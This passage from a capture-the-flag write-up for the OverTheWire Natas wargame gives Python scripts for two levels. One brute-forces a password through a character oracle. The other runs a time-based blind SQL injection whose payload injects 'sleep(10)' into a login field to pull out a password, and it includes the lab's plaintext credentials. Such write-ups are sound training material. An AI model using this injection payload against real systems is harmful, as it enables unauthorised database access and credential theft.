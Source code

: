 ```python
print "making a list of all characters in pw file..."
possible_chars = []
for char in alphanumerics:
    if is_correct(char):
        print char
        possible_chars.append(char)
# print out all possible characters
print possible_chars
# try to find the full password by appending possible characters to either end of the password we have so far
password = ""
while len(password) < 32:
    print "Password =", password
    for char in possible_chars:
        if is_correct(password + char): password = password + char
        if is_correct(char + password): password = char + password


print password
print "Woohoo!"
```

Let it run for a bit and at the end you'll ahev the password:

> 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw Woohoo!


### Level 17

This level will be a bit tricky.  
It is like level 15 so we'll use the same tecniques, but this time we will not see the output so we'll do a `blind` bruteforce, using the server responce time as indicator of the right choice of character.

Here's the script:

```python

#blind.py
import time
import requests
from requests.auth import HTTPBasicAuth
letters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
solution = ""
for x in range(33):
    for c in letters:
        payload = {'username': 'natas18" and users.password COLLATE latin1_bin like "'+solution+c+'%'+'"and sleep(10) and "x"="x'}
        start = time.time()
        r = requests.post("http://natas17.natas.labs.overthewire.org/", data=payload, auth=HTTPBasicAuth('natas17', '8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw'))
        end = time.time()
        if int(end-start) >= 4:
            solution = solution + c
            print "Solution: " + solution
            break


print "Final: "+solution
```
